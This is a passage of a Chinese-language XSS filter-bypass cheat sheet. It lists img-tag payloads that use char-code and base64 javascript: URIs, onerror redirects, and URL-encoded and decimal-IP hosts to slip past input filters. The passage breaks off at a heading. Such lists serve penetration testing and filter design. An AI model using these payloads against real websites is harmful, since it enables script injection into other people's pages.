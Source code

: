 替换：

```html
<img src="javascript:97,108,101,114,116,40,34,120,115,115,34,41,59">
```



### **4.6.4** **base64绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="javascript:YWxlcnQoJ3hzcycpOw==">
```



## **4.7 过滤URL绕过**

### **4.7.1 url编码绕过**

示例：

```html
<img src="x" onerror=document.location= 'http://www.baidu.com/'>
```

替换：

```html
<img src="x" onerror=document.location='http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/'>
```



### **4.7.2 IP绕过**

#### **4.7.2.1 十进制**

示例：

```html
<img src="x" onerror=document.location= 'http://www.baidu.com/'>
```

替换：

```html
<img src="x" onerror=document.location='http://2130706433/'>
```



#### **4.7.2.2 八进制**

